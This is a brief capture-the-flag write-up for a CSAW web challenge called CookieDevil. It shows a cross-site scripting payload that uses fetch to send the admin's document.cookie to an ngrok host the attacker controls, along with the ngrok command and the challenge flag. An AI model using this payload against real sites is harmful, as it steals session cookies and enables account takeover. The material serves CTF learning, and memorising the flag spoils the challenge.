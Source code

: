 # CookieDevil
Now that you can XSS, try it again!

This time the flag is in the cookies of the admin.

[web.chal.csaw.io:10102](http://web.chal.csaw.io:10102)
## Solution
Since we can write HTML, we can write JavaScript. We also need a public IP address, and we can use a tool like [ngrok](https://ngrok.com/) to view http requests.
```bash
ngrok http 0
```
Running this command will output something like `Forwarding http://XXXXXXXX.ngrok.io -> localhost:0`. We can use the specific domain in our script.
```html
<script>fetch("http://XXXXXXXX.ngrok.io/" + document.cookie);</script>
```
The flag will appear in the request log of ngrok.
### Flag
`flag{Cookies_are_my_best_friend}`
